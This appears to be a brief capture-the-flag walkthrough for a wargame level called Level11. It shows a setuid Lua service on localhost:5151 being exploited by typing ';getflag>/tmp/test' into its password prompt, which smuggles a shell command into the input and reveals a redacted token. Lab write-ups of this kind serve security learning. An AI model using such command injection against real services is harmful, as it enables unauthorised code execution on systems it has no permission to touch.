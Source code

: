# Level11
## Step by step
### 1. Access the `level11` Home Directory
  ```bash
  > ls -la
  -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
  ```
---
### 2. Understanding the `level11.lua` Program

The `level11.lua` file contains Lua code that listens on `localhost:5151`.
  ```bash
  > nc localhost 5151
  Password: ;getflag>/tmp/test
  > cat /tmp/test
  Check flag.Here is your token : XXX
  ```
